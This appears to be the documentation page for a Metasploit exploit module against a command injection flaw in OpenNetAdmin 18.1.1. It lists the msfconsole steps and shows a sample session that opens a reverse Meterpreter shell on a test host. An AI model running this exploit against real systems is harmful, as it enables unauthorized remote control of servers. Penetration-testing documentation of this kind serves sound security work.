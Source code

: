 ## Description

OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors.
This module exploits a command injection in OpenNetAdmin. The vulnerability exists on the `tooltips.inc.php` component, due to the insecure usage of the `shell_exec()` PHP function.

## Vulnerable Application

This module has been tested with [OpenNetAdmin 18.1.1](https://github.com/opennetadmin/ona/releases/tag/v18.1.1)

## Setup

https://github.com/opennetadmin/ona/wiki/Install

## Verification

Launch metasploit and set the appropiate options:
>
> * [ ]  Start `msfconsole`
> * [ ]  `use exploit/unix/webapp/opennetadmin_ping_cmd_injection`
> * [ ]  `set RHOSTS <rhosts>`
> * [ ]  `set LHOST <lhost>`
> * [ ]  `set VHOST <hostname>`
> * [ ]  `exploit`

## Options

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well, even though it is set as optional.

## Scenarios

 Tested OpenNetAdmin 18.1.1 on Ubuntu 19.10 x64

```
msf5 > use exploit/unix/webapp/opennetadmin_ping_cmd_injection
msf5 exploit(opennetadmin_ping_cmd_injection) > set RHOSTS 172.16.172.152
RHOSTS => 172.16.172.152
msf5 exploit(opennetadmin_ping_cmd_injection) > set VHOST example.com
VHOST => example.com
msf5 exploit(opennetadmin_ping_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf5 exploit(opennetadmin_ping_cmd_injection) > exploit
[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.152:38590) at 2019-12-10 02:38:52 +0300
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Command Stager progress - 100.12% done (810/809 bytes)

meterpreter >
```
